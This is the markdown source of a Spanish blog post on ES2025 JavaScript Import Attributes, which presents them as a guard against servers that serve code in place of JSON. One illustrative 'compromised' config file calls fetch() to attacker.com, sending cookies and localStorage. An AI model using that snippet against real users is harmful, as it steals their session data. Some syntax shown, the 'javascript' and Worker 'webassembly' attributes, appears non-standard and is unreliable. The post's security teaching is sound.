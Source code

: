 ```yaml
---
title: "Lo nuevo de JavaScript ES2025: Import Attributes"
description: Comprendiendo su nueva sintaxis y por qué no podemos fiarnos solo de las extensiones de archivo.
date: 2024-11-22T21:33:25.684Z
update: 2025-01-22T21:13:59.142Z
hero: ./js-es2025.svg
heroAlt: JavaScript ES2025
og: ./js-es2025.png
tags:
  - Programación
  - JavaScript
  - ES2025
  - JSON
sources:
  - title: JavaScript Import Attributes (ES2025) - Trevor I. Lasn
    href: https://www.trevorlasn.com/blog/import-attributes-in-javascript
  - title: Import Attributes - TC39
    href: https://tc39.es/proposal-import-attributes/
  - title: Import Attributes - TC39 (GitHub)
    href: https://github.com/tc39/proposal-import-attributes
themeColor: "#f0db4f"
---
```


<BaselineStatus id="json-modules" />

JavaScript incorpora una nueva función que hace que las importaciones de módulos sean más explícitas y seguras. Los **Import Attributes** añaden una forma de pasar metadatos sobre cualquier módulo que estemos importando, ya sea JSON, JavaScript u otros tipos de módulos.

## ❌ El problema

En Internet, las extensiones de archivo no indican el contenido de forma fiable. Un servidor puede devolver JavaScript cuando usted espera JSON:

```js title="main.js"
// Parece seguro, pero podría ser peligroso ☢️
import config from './config.json';
```

```js title="config.json"
// El servidor podría responder con código ejecutable:
export default (function () {
  // Ejecución inesperada de código 💀
})();
```

## 💡 La solución: Import Attributes

Los Import Attributes crean un contrato entre el código y el tiempo de ejecución. Declaras explícitamente qué tipo de módulo esperas:

```js
// Requerir JSON explícitamente
import config from './config.json' with { type: 'json' };

// O especificar JavaScript
import module from './module.js' with { type: 'javascript' };

// También funciona con importaciones dinámicas
const data = await import('./config.json', {
  with: { type: 'json' }
});
```

La sintaxis funciona de forma coherente en diferentes contextos de módulos:

```js
// Re-exportación con atributos
export { data } from './data.json' with { type: 'json' };

// Instanciación de Web Worker
new Worker('processor.wasm', {
  type: 'module',
  with: { type: 'webassembly' }
});
```

## 💭 ¿Por qué los Import Attributes?

El principal problema es la seguridad. En Internet, las extensiones de archivo no indican el contenido de forma fiable. Una URL que termine en `json` podría en realidad servir JavaScript:

```js title="main.js"
// Carga de la configuración de la API
import apiConfig from './api-config.json';

// Lo que esperas obtener:
{
  "apiKey": "secret-key",
  "endpoint": "https://api.example.com",
  "timeout": 5000
}
```

```js title="api-config.json"
// Lo que un servidor comprometido podría enviar en su lugar:
export default (function () {
  // Envía tus claves API a un atacante
  fetch('https://attacker.com', {
    method: 'POST',
    body: JSON.stringify({
      cookies: document.cookie,
      localStorage: window.localStorage
    })
  });

  // Luego devuelve lo que parece una configuración normal
  return {
    apiKey: 'secret-key',
    endpoint: 'https://api.example.com',
    timeout: 5000
  }
})();
```

Los Import Attributes hacen que nuestro sistema de módulos sea más explícito y seguro. Los módulos JSON no pueden ejecutar código, son datos puros. Cuando marcas un módulo con `type: "json"`, estás garantizado que obtendrás datos JSON o un error, nunca código ejecutable.

El impacto más inmediato se produce en las importaciones JSON, donde la seguridad es crucial:

```js
// Archivos de configuración
import config from './config.json' with { type: 'json' };

// Configuración dinámica
const config = await import(
  `./config.${env}.json`,
  { with: { type: 'json' } }
);
```

Esta característica crea una base para manejar con seguridad diferentes tipos de módulos en JavaScript. Cuando llegue en 2025, dispondremos de una forma estándar de declarar nuestras expectativas sobre los módulos en todos los entornos JavaScript.

Piensa en ello como si añadieras seguridad de tipos a tus importaciones de módulos, no para los datos dentro de los módulos, sino para los propios módulos.
